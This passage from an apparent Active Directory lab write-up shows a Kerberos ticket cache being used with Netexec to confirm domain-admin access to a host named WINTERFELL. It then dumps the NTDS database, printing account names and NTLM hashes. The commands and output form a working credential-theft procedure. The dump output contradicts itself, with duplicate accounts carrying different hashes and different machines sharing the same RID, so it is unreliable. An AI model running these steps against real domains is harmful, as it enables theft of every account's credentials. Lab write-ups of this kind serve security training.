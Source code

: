 The command will result in a `.ccache` file being written, `EDDARD.STARK.ccache` in my case. I could then set the `KRB5CCNAME` variable with the path to my ccache file, and use tools that support Kerberos authentication. To easily test my ticket to ensure it works fine, I used Netexec.

```
# KRB5CCNAME=./EDDARD.STARK.ccache nxc smb 10.2.10.11 --use-kcache

SMB         10.2.10.11      445    WINTERFELL       [*] Windows 10 / Server 2019 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         10.2.10.11      445    WINTERFELL       [+] north.sevenkingdoms.local\EDDARD.STARK from ccache (Pwn3d!)
```

Netexec returns the `Pwn3d` phrase when it detects the authenticating user to hold admin rights over the target *(I think it attempts to access the ADMIN$ share on the device to do so)*. This essentially confirms I successfully gained DA-level privileges.

### NTDS Dump

To complete the compromise of `NORTH`, I went ahead and dumped the hashes for all users. Million ways to skin a cat in this case, I used Netexec’s `ntdsutil` module because Secretsdump was giving me grief.

```
# KRB5CCNAME=./EDDARD.STARK.ccache nxc smb 10.2.10.11 --use-kcache -M ntdsutil

SMB         10.2.10.11      445    WINTERFELL       [*] Windows 10 / Server 2019 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
SMB         10.2.10.11      445    WINTERFELL       [+] north.sevenkingdoms.local\EDDARD.STARK from ccache (Pwn3d!)
NTDSUTIL    10.2.10.11      445    WINTERFELL       [*] Dumping ntds with ntdsutil.exe to C:\Windows\Temp\172323029
NTDSUTIL    10.2.10.11      445    WINTERFELL       Dumping the NTDS, this could take a while so go grab a redbull...
NTDSUTIL    10.2.10.11      445    WINTERFELL       [+] NTDS.dit dumped to C:\Windows\Temp\172323029
NTDSUTIL    10.2.10.11      445    WINTERFELL       [*] Copying NTDS dump to /tmp/tmp9hbwtkg4
NTDSUTIL    10.2.10.11      445    WINTERFELL       [*] NTDS dump copied to /tmp/tmp9hbwtkg4
NTDSUTIL    10.2.10.11      445    WINTERFELL       [+] Deleted C:\Windows\Temp\172323029 remote dump directory
NTDSUTIL    10.2.10.11      445    WINTERFELL       [+] Dumping the NTDS, this could take a while so go grab a redbull...
NTDSUTIL    10.2.10.11      445    WINTERFELL       KINGSLANDING$:1001:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       Administrator:500:aad3b435b51404eeaad3b435b51404ee:dbd13e1c4e338284ac4e9874f7de6ef4:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       localuser:1000:aad3b435b51404eeaad3b435b51404ee:8846f7eaee8fb117ad06bdd830b7586c:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       WINTERFELL$:1001:aad3b435b51404eeaad3b435b51404ee:dcde0a27d7168720846cc3ecec02b60e:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       krbtgt:502:aad3b435b51404eeaad3b435b51404ee:5341daf0b6a384b67440a50f0df0eb37:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       krbtgt:502:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       localuser:1000:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       Administrator:500:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       NORTH$:1104:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
NTDSUTIL    10.2.10.11      445    WINTERFELL       SEVENKINGDOMS$:1104:aad3b435b51404eeaad3b435b51404ee:1a9fa36e47adf4e38aadca283cc7b499:::
```